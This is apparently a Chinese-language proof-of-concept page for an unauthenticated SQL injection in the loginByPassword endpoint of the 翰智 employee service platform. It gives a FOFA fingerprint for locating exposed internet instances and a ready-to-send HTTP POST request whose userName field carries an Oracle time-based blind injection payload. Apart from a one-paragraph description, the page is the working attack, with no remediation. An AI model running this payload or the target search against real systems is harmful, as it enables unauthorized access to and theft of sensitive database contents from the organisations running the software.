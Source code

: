 ## 翰智员工服务平台loginByPassword存在SQL注入漏洞

翰智员工服务平台登录接口loginByPassword处userName参数未对传入的数据进行严格校验和过滤，导致造成SQL注入漏洞，未经身份验证的远程攻击者可利用此漏洞获取数据库敏感信息。

## fofa

```
body="./static/hrfonts/iconfont.css"
```

## poc

```
POST /hrssc/portal/plantform/loginByPassword HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br, zstd
Content-Type: application/json
Connection: keep-alive
Priority: u=1
 
{"userName":"'||(SELECT CHR(97)||CHR(122)||CHR(85)||CHR(72) FROM DUAL WHERE 7673=7673 AND 7374=DBMS_PIPE.RECEIVE_MESSAGE(CHR(82)||CHR(72)||CHR(114)||CHR(99),5))||'","password":"'"}
```


